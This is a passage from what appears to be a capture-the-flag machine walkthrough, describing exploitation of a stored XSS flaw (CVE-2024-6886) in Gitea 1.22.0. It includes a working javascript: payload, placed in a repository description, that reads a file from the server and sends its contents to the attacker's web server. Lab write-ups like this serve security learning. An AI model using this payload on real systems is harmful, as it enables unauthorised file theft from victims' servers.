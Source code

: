 ## Privilege Escalation to root

### CVE-2024-6886: Stored Cross-Site Scripting (XSS) in Gitea 1.22.0

Some quick research on the `vulnerabilities` for this version of `Gitea` showed that it was vulnerable to `CVE-2024-6886` aka `Stored Cross-Site Scripting (XSS)`.

- [https://www.exploit-db.com/exploits/52077](https://www.exploit-db.com/exploits/52077)

With the information about the files we needed to look for to enumerate the `employee management system` we modified the `Proof of Concept (PoC)` payload to `grab any file` we want and `send it back` to our local `web server`.

```c
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(r=>r.text()).then(d=>fetch('http://10.10.14.47/?response='+encodeURIComponent(d))).catch(e=>console.error('Error:',e));">foobar</a>
```

To pull this off we created a `new repository` as `axel` and put the `payload` into the `Description field`.

![](images/2025-02-02_16-45_3000_create_repository.png)

Then we created the file we wanted to grab, in this case the `index.php` and put the `payload` into it. We are still not sure if this step was necessary but we had some issues without the file.
